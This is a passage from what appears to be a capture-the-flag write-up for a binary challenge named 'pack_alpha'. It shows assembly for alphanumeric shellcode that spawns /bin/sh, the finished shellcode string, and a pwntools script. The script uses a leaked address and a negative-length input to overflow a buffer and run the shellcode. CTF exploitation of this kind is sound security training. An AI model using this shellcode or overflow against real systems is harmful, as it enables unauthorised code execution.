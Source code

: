 ```python=
pop %rax
xor $0x30, %al
push %rax
push %rax
xor $0x75, %al
xor $0x4e, %al
pop %rdx

# encoding the arguemnts in registers and the syscall into an alpha-numeric form.
.byte 0x34	# %rsi = NULL
.byte 0x6a	# %rdi is now a pointer to the string "/bin/sh"
.byte 0x57	# 0x0f
.byte 0x53	# 0x05 syscall
.byte 0x45	# /
.byte 0x57	# b
.byte 0x31	# i
.byte 0x38	# n
.byte 0x45	# /
.byte 0x46	# s
.byte 0x30	# h
.byte 0x56	# \0

```
Thus our alpha numeric shellcode is: `XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V`

## Exploit:
```
from pwn import *

if __name__=="__main__":

	context(os='linux', arch='amd64')

	p = process('./pack_alpha')
	#p = remote('gc1.eng.run', 32385)
	gdb.attach(p)

	p.recv()
	p.sendline('b'*3)

	p.recv()
	p.sendline('12')

	p.recvuntil('Your room number is: ')
	leak = p.recvline()[:-1]
	leak = int(leak, 16)
	info("leak: %s"%hex(leak))

	p.recvuntil('Length of your name: ')
	p.sendline('-1')
	
	# alpha numeric shellcode:
	shell = 'XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V'
	pay = shell
	pay += 'a'*(0x80 - len(shell))
	pay += 'b'*8
	pay += p64(leak)
	p.send(pay)
	

```